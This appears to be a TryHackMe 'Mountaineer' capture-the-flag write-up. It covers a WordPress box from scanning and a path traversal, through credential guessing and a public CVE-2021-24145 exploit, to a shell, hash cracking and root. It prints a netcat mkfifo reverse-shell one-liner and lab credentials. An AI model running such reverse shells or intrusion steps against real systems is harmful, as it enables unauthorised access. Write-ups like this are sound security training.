 ```yaml
---
title: Mountaineer
date: 2024-10-22
tags: [tryhackme, ctf]
author: nandakishor
---
```


## Mountaineer tryhackme
MOUNTAINEER
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 141106.png>)

For initial recon i used rustscan with -sCV flag
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 145602.png>)
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 145707.png>)

Port 22 (SSH): Running OpenSSH 8.9p1 on Ubuntu
Port 80 (HTTP): Running nginx 1.18.0 on Ubuntu
To gather more detailed information, I followed up with a Nmap scan on the detected ports, which provided additional details:

The SSH server uses ECDSA and ED25519 host keys.
The HTTP service is running nginx, supporting basic methods like GET and HEAD. The default nginx welcome page was displayed, suggesting no specific web application was immediately accessible.


![alt text](../assets/images/mountaineer/image.png)
I run a ffuf scan and i found wordpress directory


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 145844.png>)
This is the wordpress website, in the mean time i used ffuf to enumerate for more directories

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 150118.png>)
we can see a domain name here so add it to /etc/hosts

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 150253.png>)


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 150549.png>)
This is the website

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 151717.png>)
Use wpscan for more info, and

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 151832.png>)
we can see a theme is installed init
I used to exploit it but it didnt worked

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 152126.png>)
Also we got some usernames:

ChoOyu
Everest
MontBlanc
admin
everest
montblanc
chooyu
k2

save into a text file.

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 152314.png>)
we can see a image directory , capture the request

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 152704.png>)
We can see a potential path traversal here


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 152831.png>)
I used chat gpt to find the location of ngix that we can get some info

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 152916.png>)
this is the intersting location that i found


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 153018.png>)
we can see a vhost name there, add it to /etc/host file

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 153105.png>)

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 153156.png>)
Its a login page, it requires creds, so i tries SQL injection and other login bypass methos, nothing worked so i used the username that we got from WP scan to bypass it

k2:k2

is the usename and password

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 153904.png>)

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 154017.png>)

i got a password

th3_tall3st_password_in_th3_world

And another intersting mail
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 154109.png>)



We already have a password and username , so i used it against wp-admin

k2:th3_tall3st_password_in_th3_world
it worked
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 154338.png>)


If we have the authentication we can use the exploit CVE-2021-24145

https://github.com/Hacker5preme/Exploits/tree/main/Wordpress/CVE-2021-24145

we can download it from here

And exploit it 
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 154945.png>)

we got a shell

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 155014.png>)

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ip port >/tmp/f

I used this to get the reverse shell
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 155208.png>)

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 155239.png>)

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 155405.png>)
we can see a backup file here , get into my system and analyse it

http.server method doesnt worked so i used nc method to transfer file

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 160201.png>)
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 160311.png>)

I used john to crack the password

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 160335.png>)

But the rockyou is't working for me , and its taking too much time,
so i created a custom wordlist to crack it

We can use tools like Crunch,cewl, cupp to do this,

i used cupp , Because 
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 160856.png>)

this format looks similar to the cupp

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 161146.png>)
we got out custom wordlist

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 161249.png>)

The password is cracked

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 161506.png>)

Basic Commands

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 161643.png>)


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 161731.png>)

We got a username and password , its probaly for ssh
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 161827.png>)


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 175735.png>)

Login using ssh
![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 175827.png>)


![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 180217.png>)
We can direcly get the root password brom the bash history

![alt text](<../assets/images/mountaineer/Screenshot 2024-10-22 180356.png>)

